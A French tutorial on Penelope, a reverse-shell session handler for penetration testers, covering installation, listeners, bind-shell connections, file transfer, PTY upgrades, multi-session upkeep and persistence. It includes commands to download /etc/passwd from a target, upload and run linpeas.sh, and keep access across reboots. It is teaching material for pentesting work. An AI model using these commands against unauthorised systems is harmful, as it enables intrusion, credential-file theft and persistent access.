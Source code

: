 
# Tutoriel Complet sur Penelope

## Introduction
Penelope est un outil de gestion de shells, conçu pour aider les pentesters à améliorer la gestion des shells inversés. Il fournit une interface avancée qui permet des fonctionnalités telles que l'auto-upgrade de shells en PTY (Pseudo-Terminal), la gestion de multiples sessions, le téléchargement et l'upload de fichiers, ainsi que d'autres commandes interactives.

---

## Installation de Penelope

### Prérequis
- **Python 3.6** ou plus récent
- **Git** pour cloner le dépôt
- Environnement compatible **Linux ou macOS** (Penelope supporte principalement les shells Unix)

### Étapes d'installation
1. **Cloner le dépôt GitHub** :
    ```bash
    git clone https://github.com/brightio/penelope.git
    cd penelope
    ```
2. **Exécuter Penelope** :
    ```bash
    python3 penelope.py
    ```
    **Note** : Penelope est un script Python autonome, il n'est pas nécessaire d'installer d'autres dépendances.

---

## Utilisation de Penelope

### 1. Lancer Penelope pour écouter des connexions shell
```bash
python3 penelope.py        # Écoute sur le port par défaut (4444)
python3 penelope.py 5555   # Écoute sur le port 5555
python3 penelope.py 5555 -i eth0  # Écoute sur une interface spécifique
```
**Explication** :
- Le premier argument définit le port d'écoute.
- L'option `-i` permet de spécifier une interface réseau particulière.

### 2. Connexion à un shell bind
```bash
python3 penelope.py -c <target_ip> 3333
```
**Explication** :  
L'option `-c` (connect) permet de se connecter à une cible qui écoute sur le port 3333.

---

## Fonctions de téléchargement et d'upload

### Télécharger un fichier de la cible
```bash
download /etc/passwd
```

### Uploader un fichier vers la cible
```bash
upload linpeas.sh /tmp
```
**Explication** :
- `download` : Télécharge un fichier depuis la machine cible.
- `upload` : Envoie un fichier local vers la cible.

---

## Maintien de sessions multiples
```bash
python3 penelope.py --maintain 2
```
**Explication** :  
`--maintain` : Maintient deux sessions actives avec la cible. Si une session est perdue, elle est recréée automatiquement.

---

## Auto-upgrade en shell PTY
Penelope tente automatiquement d'upgrader un shell simple en PTY pour permettre des commandes interactives.
```bash
upgrade
```
**Explication** :  
`upgrade` : Convertit le shell actuel en un shell interactif avec PTY.

---

## Fonctionnalités de persistance
```bash
persist
```
**Explication** :  
Cette commande maintient l'accès même après un redémarrage.

---

## Serveur HTTP intégré
```bash
python3 penelope.py -s --port 8000
```
**Explication** :  
L'option `-s` active le serveur HTTP, avec `--port` pour spécifier le port.

---

## Exécution de scripts locaux sur la cible
```bash
run script.sh
```
**Explication** :  
Permet d'exécuter des scripts locaux sur la cible.

---

## Scénarios d'utilisation

### Exemple 1 : Maintenir un accès constant à une machine
```bash
python3 penelope.py --maintain 2
```
Penelope régénérera une session si l'une tombe.

### Exemple 2 : Exécuter des scripts de post-exploitation
```bash
upload linpeas.sh /tmp
run /tmp/linpeas.sh
```

---

## Conclusion
Penelope est un outil puissant pour les pentesters cherchant à améliorer leur gestion des shells. Grâce à ses fonctionnalités telles que le maintien de sessions multiples, l'auto-upgrade des shells en PTY, et la gestion des uploads/téléchargements, il simplifie grandement les tâches de post-exploitation.
